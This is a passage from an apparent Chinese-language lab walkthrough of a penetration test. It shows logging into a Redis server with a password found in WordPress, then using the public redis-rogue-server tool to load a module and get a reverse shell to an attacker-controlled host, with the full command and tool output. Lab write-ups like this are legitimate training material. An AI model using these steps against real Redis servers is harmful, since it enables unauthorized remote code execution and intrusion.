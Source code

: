 得到`redis`的密码为`Ready4Redis?`

## 6379

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script/nmapAutomator]
└─$ redis-cli -h 192.168.231.166
192.168.231.166:6379> info
NOAUTH Authentication required.
192.168.231.166:6379> exit

```

因为redis的需要进行登录验证，我在`wordpress`中发现的密码就能进行登录了.

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ redis-cli -h 192.168.231.166 -a "Ready4Redis?"
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
192.168.231.166:6379> PING
PONG
192.168.231.166:6379> 
```

使用redis-rogue-server来获取反弹shell.

https://github.com/n0b0dyCN/redis-rogue-server

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/Hawat/redis-rogue-server-master]
└─$ ./redis-rogue-server.py --rhost 192.168.184.166 --lhost 192.168.45.169 --passwd="Ready4Redis?"
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 192.168.184.166:6379
[info] SERVER 192.168.45.169:21000
[info] Setting master...
[info] Authenticating...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 192.168.45.169
Reverse server port: 80
[info] Reverse shell payload sent.
[info] Check at 192.168.45.169:80
[info] Unload module...

```
